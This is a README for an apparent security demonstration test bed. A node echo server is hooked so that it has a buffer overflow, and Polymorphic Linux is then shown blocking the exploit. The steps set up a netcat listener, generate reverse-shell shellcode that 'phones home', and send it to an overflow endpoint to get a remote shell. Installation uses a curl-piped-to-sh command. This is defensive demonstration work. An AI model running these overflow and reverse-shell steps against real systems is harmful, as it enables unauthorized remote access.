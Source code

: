 # readhook-node-echo-server
Test bed for using readhook to hook node-echo-server application.
## Running
```sh
docker run -d --rm --name echo -p 8080:8080 polyverse/readhook-node-echo-server
```
## Stopping
```sh
docker kill echo
```
## Running interactively
```sh
docker run -it --rm --name echo -p 8080:8080 polyverse/readhook-node-echo-server /bin/sh
node echo-server.js
```
## Polyverse Polymorphic Linux
### 1: Setup Listener for Reverse Shell
#### 1.1: Shell-1: Start a listener for the remote shell to connect to
```sh
nc -kl 5555
```
### 2: Start Server with Readhook
#### 2.1: Shell-2: Start the container with an interactive shell
```sh
docker run -it --rm --name echo -p 8080:8080 polyverse/readhook-node-echo-server /bin/sh
```
#### 2.2: Shell-2: Run the echo-server with readhook in front of libc
```sh
LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
```
#### 2.3: Shell-3: Test that the echo-server is running as expected
```sh
curl localhost:8080/echo-this-line-of-text
```
### 3: Generate Shell-Code
#### 3.1: Shell-3: Generate the shell-code needed to "phone-home" to the listener on Shell-1
```sh
export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
```
#### 3.2: Shell-3: Send the shell-code to the OVERFLOW endpoint to check that it works.
```sh
curl localhost:8080/$shellCode
```
#### 3.3: Shell-1: Check that the overflow resulted in a remote shell
```sh
ls && whoami && exit
```
### 4: Install Polyverse Polymorphic Linux
#### 4.1: Shell-2: Add curl and Polyverse Distros
```sh
curl https://repo.polyverse.io/install.sh | sh -s czcw7pjshny8lzzog8bgiizfr demo@polyverse.io
```
#### 4.2: Shell-2: Update packages with Polymorphic Linux packages
```sh
sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
```
#### 4.3: Shell-2: Re-run the echo-server with basehook.so (only)
```sh
LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
```
#### 4.4: Shell-3: Test the shellCode with Polymorphic Linux
```sh
curl localhost:8080/$shellCode
```
#### 4.5: Shell 1: Confirm that nobody phoned-home to the listener
#### 4.6: Shell 2: Confirm that node terminated abnormally

